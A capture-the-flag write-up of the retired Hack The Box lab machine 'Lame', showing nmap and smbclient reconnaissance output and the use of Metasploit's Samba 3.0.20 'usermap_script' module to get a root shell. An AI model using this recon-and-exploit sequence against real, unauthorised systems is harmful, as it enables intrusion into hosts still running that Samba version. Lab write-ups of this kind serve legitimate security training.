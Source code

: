 # Lame

[Lame](https://app.hackthebox.eu/machines/1) is a retired HTB machine.

## Recon

As usual, start off with an nmap scan:

```
$ nmap -Pn -sV -sC 10.10.10.3 -oN nmap_scan.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times
will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-24 11:46 EDT
Nmap scan report for 10.10.10.3
Host is up (0.13s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h04m46s, deviation: 2h49m44s, median: 4m44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-03-24T11:51:10-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.03 seconds
```

Lots of interesting findings! The target is likely running Linux or Unix, has
FTP, SSH, and Samba shares running.

Anonymous FTP login is allowed, however I did not find
anything interesting on the server.

I next ran `smbclient` to see if there are any shares we can access.

```
$ smbclient -L //10.10.10.3/   
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

I searched the shares, but again, nothing interesting.

With the other options exhausted, I searched for a Samba 3.0.20 exploit

## Exploitation

In metasploit, search for a module with the Samba version. There should only be
one result.

```
> search samba 3.0.20
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

Set the RHOSTS and LHOST options then run the module. After a few seconds you
should get a root shell! (Note: there is no prompt)

```
whoami
root
id
uid=0(root) gid=0(root)
```

From here the user and root flags can be found in /home/makis/user.txt and
/root/root.txt respectively.


